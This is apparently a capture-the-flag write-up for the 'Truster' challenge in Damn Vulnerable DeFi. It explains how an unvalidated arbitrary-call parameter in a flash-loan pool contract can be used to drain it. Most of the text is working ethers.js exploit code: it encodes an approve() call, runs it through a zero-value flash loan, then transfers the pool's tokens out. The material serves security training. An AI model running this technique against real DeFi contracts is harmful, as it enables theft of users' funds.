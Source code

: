 ### [Task Contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v3.0.0/contracts/truster)

### Task

>More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

>The pool holds 1 million DVT tokens. You have nothing.

>To pass this challenge, take all tokens out of the pool. If possible, in a single transaction.

### Observations

- The function `flashLoan()` in the Lender Contract takes 4 parameters.
  - loan amount. Never checks if != 0.
  - borrower address. Never checks the address.
  - target address. Never checks the address.
  - data. Never checks the contents of the data.

- The `flashLoan` function will run any function on any target address.
- So we should call `approve()` on the token address.


### Steps
- Use ethers lib and an ABI to encode the correct funtion calldata. `Approve` function on the token address:

```
const ABI = [
            "function approve(address spender, uint256 amount)"
        ];
const iface = new ethers.utils.Interface(ABI);
const data = iface.encodeFunctionData("approve", [player.address, TOKENS_IN_POOL]);
```

- Start the 0 value flashloan, providing the token approval calldata as the data parameter:
```
await pool.connect(player).flashLoan(0, player.address, token.address, data);
```

- Now that the loan and approval are successful, invoke `transferFrom()` to get all the tokens.
```
await token.connect(player).transferFrom(pool.address, player.address, TOKENS_IN_POOL)
```

- If you were to do this in one transaction it would be the same process through a contract that calls to flashloan instead.